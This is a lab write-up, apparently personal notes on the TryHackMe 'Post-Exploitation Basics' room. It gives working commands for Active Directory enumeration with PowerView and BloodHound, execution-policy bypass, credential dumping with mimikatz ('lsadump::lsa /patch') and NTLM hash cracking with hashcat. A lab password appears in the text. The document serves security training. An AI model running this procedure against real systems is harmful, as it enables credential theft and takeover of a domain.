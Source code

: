 # Post-Exploitation Basics

**Room Link:** [https://tryhackme.com/room/postexploit](https://tryhackme.com/room/postexploit)



## Presteps for Lab

### SharpHound Installation

SharpHound version on the box is too old for the current version of Bloodhound so I had to update it.

**Kali**

```
git clone https://github.com/BloodHoundAD/BloodHound.git

scp -r BloodHound/Collectors/SharpHound.ps1 Administrator@$VICTIM:C:/Users/Administrator/
Password: P@$$W0rd
```

Added this line to SharpHound.ps1 before transfering so I could run the command right away

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**&#x20;

```
powershell -ep bypass
.\SharpHound.ps1
```

### BloodHound Installation

```
apt-get install bloodhound
neo4j console
```

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

## Enumeration w/ Powerview

**Kali**

```
ssh Administrator@$VICTIM
Password: P@$$W0rd
```



**Victim**

Run below to be able to run PowerView commands.

```
powershell -ep bypass
. .\Downloads\PowerView.ps1
```

Enumerate the domain users.

```
Get-NetUser | select cn
```

<figure><img src="../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

Enumerate the domain groups.

```
Get-NetGroup -GroupName *admin*
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Find Shared folders.

```
Invoke-ShareFinder
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Get Operating systems on the network.

```
Get-NetComputer -fulldata | select operatingsystem
```

<figure><img src="../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

## Enumeration w/ Bloodhound

Setup and get loot with Bloodhound.

**Victim**

```
powershell -ep bypass
. .\Downloads\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```



Transfer Bloodhound results back to Kali. SCP can be used in this case

**Kali**

```
scp Administrator@$VICTIM:C:/Users/Administrator/20230212071833_loot.zip loot.zip
Password: P@$$W0rd
```

### Mapping the network w/ BloodHound

```
bloodhound --no-sandbox
```

We can just drag the zip file to bloodhound to import it.

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Find all Domain Admins

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

List all Kerberostable accounts

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

## Dumping hashes w/ mimikatz

**Kali**

```
ssh Administrator@$VICTIM
Password: P@$$W0rd
```

**Victim**

```
cd Downloads && mimikatz.exe
```

**Victim - Mimikatz**

```
privilege::debug
lsadump::lsa /patch
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Copy to Kali output back to Kali

****![](<../../.gitbook/assets/image (3).png>)****

Output only the hashes and remove all duplicates into a new file.

**Kali**

```
cat hashes.txt | grep NTLM | awk -F ":" '{print $2}' | grep "\S" | sed 's/^[ \t]*//'  | sort | uniq > hash.txt
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt --show
```

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>
